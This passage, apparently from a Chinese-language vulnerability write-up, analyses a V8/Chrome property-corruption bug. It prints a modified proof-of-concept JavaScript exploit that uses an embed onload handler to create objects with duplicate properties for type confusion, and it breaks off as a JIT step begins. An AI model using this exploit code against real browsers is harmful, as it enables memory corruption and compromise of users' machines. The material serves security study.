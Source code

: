```cpp
  return AddDataProperty(it, value, NONE, should_throw, store_origin); // >>>
}

```

### 两个同名的属性

属性设置已经了解的差不多了，开始分析实际的 POC，稍微修改下漏洞报告中的 POC，加入一些 `alert()` 弹窗，把原本的 POC 分成几部分来分析。

```javascript
global_object = {};

setPropertyViaEmbed = (object, value, handler) => {
  const embed = document.createElement('embed');
  embed.onload = handler;
  embed.type = 'text/html';
  Object.setPrototypeOf(global_object, embed);
  document.body.appendChild(embed);
  alert('before set');
  object.corrupted_prop = value;
  alert('after set');
  embed.remove();
}

createCorruptedPair = (value_1, value_2) => {
  const object_1 = {
    __proto__: global_object
  };
  object_1.regular_prop = 1;

	alert('before s1');

  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(global_object, null);
    alert('before set2');
    object_1.corrupted_prop = value_1;
	alert('after set2');
  });

	alert('after s1');

  const object_2 = {
    __proto__: global_object
  };
  object_2.regular_prop = 1;

	alert('before s2');

  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(global_object, null);
    object_2.corrupted_prop = value_1;
    object_1.regular_prop = 1.1
  });

  alert('after s2');

  return [object_1, object_2];
}

const array = [1.1];
array.prop = 1;
const [object_1, object_2] = createCorruptedPair(array, 2261620.509803918);

jit = (object) => {
```